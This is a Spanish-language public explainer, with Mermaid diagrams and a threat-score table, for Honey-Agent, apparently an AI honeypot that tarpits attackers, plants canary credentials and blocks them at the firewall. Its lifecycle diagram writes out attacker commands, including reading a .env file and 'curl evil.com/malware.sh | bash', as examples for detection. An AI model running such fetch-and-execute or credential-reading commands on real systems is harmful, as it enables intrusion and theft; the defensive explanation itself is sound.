


# **Infografía y Conceptos Visuales: Cómo Funciona Honey-Agent**

* **Documento Público:** Guía Visual de Conceptos y Flujos
* **Audiencia:** Estudiantes, Analistas, Diseñadores de Soluciones y Divulgadores
* **Versión:** 1.0 (Pública)

---

## **1. La Gran Analogía: De la Fortaleza al Laberinto con Niebla**

```mermaid
graph TD
    subgraph "El Enfoque Tradicional: La Muralla Estática"
        M1["Muralla de Piedra (Firewall)"] -->|El atacante prueba una y otra vez| M2["Encuentra una grieta secreta"]
        M2 --> M3["Entra directo al castillo (Servidores Reales Comprometidos)"]
    end

    subgraph "El Enfoque Honey-Agent: El Laberinto con Niebla"
        H1["Puerta Falsa Abierta (Señuelo en Memoria)"] --> H2["El atacante entra creyendo haber ganado"]
        H2 --> H3["Arena Movediza (Tarpit retarda sus pasos)"]
        H3 --> H4["Cofre con Monedas Rastreadoras (Canary Tokens)"]
        H4 --> H5["La Trampa se Cierra Automáticamente (Bloqueo en Firewall)"]
    end
```



* **En la muralla tradicional:** El atacante prueba miles de llaves hasta que una abre. El defensor solo espera que el muro resista.
* **En Honey-Agent:** Le dejamos una puerta falsa visible. El atacante entra aliviado, pero ha entrado a un laberinto en la niebla donde cada paso que da le cuesta tiempo y delata su identidad.

---

## **2. Ciclo de Vida de una Amenaza en Honey-Agent**

El siguiente diagrama ilustra qué experimenta el atacante y qué sucede en el fondo mientras interactúa con el sistema:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as Atacante (Hacker / Botnet)
    participant Honey as Honey-Agent (Señuelo en RAM)
    participant SOC as Panel del SOC (Defensores)
    participant FW as Firewall del Kernel

    Note over Attacker,FW: 1. Escaneo e Infiltración
    Attacker->>Honey: Escanea puerto 22 y se conecta por SSH
    Honey-->>Attacker: Banner creíble OpenSSH 8.9p1 Ubuntu
    Honey->>SOC: Alerta: Nueva sesión iniciada (IP, País, Credenciales)

    Note over Attacker,FW: 2. Reconocimiento y Generación con IA
    Attacker->>Honey: whoami; uname -a; ps aux
    Honey-->>Attacker: Respuestas de terminal perfectas (< 50ms)
    Honey->>SOC: Mapeo MITRE: Discovery (T1082) -> Threat Score: 20%

    Note over Attacker,FW: 3. Tarpit y Cebo Envenenado (Canary)
    Attacker->>Honey: cat /var/www/html/.env
    Note over Honey: Tarpit retarda 3.5 segundos simulando carga
    Honey-->>Attacker: Entrega credencial de AWS falsa firmada
    Honey->>SOC: CANARY INOCULADO: Clave AWS sembrada -> Threat Score: 60%

    Note over Attacker,FW: 4. Detección Crítica y Expulsión Inmediata
    Attacker->>Honey: curl evil.com/malware.sh | bash
    Honey->>SOC: DETECCIÓN CRÍTICA: T1059.001 (RCE) -> Threat Score: 100%
    Honey->>FW: Regla atómica: BLOQUEAR IP EN FIREWALL
    FW-->>Attacker: Conexión congelada (Paquetes DROP instantáneos)
    Honey->>SOC: ESTADO: ATACANTE CONTENIDO Y EXPULSADO
```

---

## **3. Cómo Funciona el Tarpit Cognitivo (Retardo Inteligente)**

A diferencia de un error de red que desconecta al atacante de golpe, el **Tarpit Cognitivo** manipula la psicología del operador:



* **El resultado:** Una herramienta automática que tarda normalmente 30 segundos en escanear un servidor, se queda atrapada durante más de 10 minutos, consumiendo su ancho de banda y procesador.

---

## **4. El Concepto de Canary Token: El Cebo Rastreador**

¿Qué ocurre cuando un atacante "roba" contraseñas del señuelo?



El atacante cree haber obtenido un tesoro confidencial, pero en realidad ha colocado un localizador GPS sobre sus propias acciones.

---

## **5. El Semáforo del Threat Score (Puntaje de Amenaza)**

En la pantalla del Centro de Operaciones de Seguridad (SOC), cada atacante es monitorizado mediante un velocímetro dinámico de amenaza:

| Nivel de Riesgo | Rango de Threat Score | Comportamiento Típico | Acción de Honey-Agent |
| :---: | :---: | :--- | :--- |
| 🟢 **Bajo (Normal)** | **0% a 39%** | Comandos elementales de reconocimiento (`whoami`, `pwd`, `uname -a`). | Respuestas rápidas, captura silenciosa de comandos en telemetría. |
| 🟡 **Medio (Sospechoso)** | **40% a 79%** | Búsqueda metódica de contraseñas, lectura de `.bash_history` o `.env`. | Activación del Tarpit progresivo e inoculación activa de Canary Tokens. |
| 🔴 **Crítico (Expulsión)** | **80% a 100%** | Descarga de scripts maliciosos (`curl \| bash`), intento de rootkit o pivote a red interna. | **Aislamiento perimetral automático:** Se ejecuta regla de firewall y la sesión se congela. |
